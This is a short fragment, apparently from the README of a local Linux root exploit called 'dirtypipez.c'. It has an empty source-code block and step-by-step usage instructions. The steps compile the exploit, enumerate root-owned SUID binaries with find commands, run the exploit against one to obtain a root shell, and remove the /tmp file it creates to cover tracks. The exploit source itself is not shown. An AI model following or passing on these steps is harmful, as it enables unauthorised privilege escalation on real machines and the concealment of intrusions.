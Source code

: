 ```
```

### Using the exploit
1. Compile: `gcc dirtypipez.c -o exploit`
2. Search for SUID binaries: `find / -user root -perm -4000 -print 2>/dev/null` or `find / -perm -u=s -type f 2>/dev/null` or `find / -user root -perm -4000 -exec ls -ldb {} \;`
3. Run with single argument of target binary (owned by root with SUID bit set): `./exploit <path to binary>`
4. Once the shell has popped, remove the file created in /tmp to clean up after yourself.Max Kellerman